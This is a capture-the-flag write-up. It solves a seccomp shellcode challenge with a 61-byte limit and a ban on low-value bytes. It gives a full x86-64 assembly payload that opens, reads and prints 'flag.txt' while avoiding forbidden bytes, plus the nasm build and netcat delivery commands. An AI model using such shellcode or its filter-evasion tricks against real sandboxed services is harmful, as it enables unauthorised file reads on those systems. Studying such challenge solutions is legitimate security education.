 ## Solution
This time there are even more restrictions. The syscalls stay the same, but now the shellcode can't be longer than 61 bytes and there can't be any bytes that are smaller than or equal to 2. So this time we have to get _crafty_. The restriction on bytes can be easily fixed by changing any `mov reg, 2` to `mov reg, 5; sub reg, 3` etc, but if we do this to the shellcode we had in the last task it becomes to long. I'm not exactly fluent in assembly so after some googling I discovered [this](https://zerosum0x0.blogspot.com/2014/12/x64-linux-polymorphic-read-file.html) blogpost which again reads from `/etc/passwd` with the same syscalls as before, but with a much smaller size. So I decided to modify this to our needs:

```asm
BITS 64
global _start

_start:

filename:
    xor esi, esi
    mul esi

    push rdx    ; '\0'

    mov rcx, 0x7478742e67616c66  ; 'flag.txt'
    push rcx

openfile:
    push rsp
    pop rdi

    mov al, 0x5
    sub al, 0x3
    syscall

readfile:
    push rax
    pop rdi
    
    push rsp
    pop rsi
    
    push rdx
    push rdx        ; saving lots of 0's
    push rdx
    push rdx
    pop rax
    mov dx, 0x999
    syscall

write:
    pop rdi
    inc edi
    
    push rax
    pop rdx
    pop rax
    inc eax
    syscall

leave:
    pop rax
    mov al, 60
    syscall
```

We can then compile this with `nasm -f bin shellcode.asm` and pipe it to the program:

```
> cat shellcode | nc seccomp2abyss_revenge.heltsikker.no 9011
```
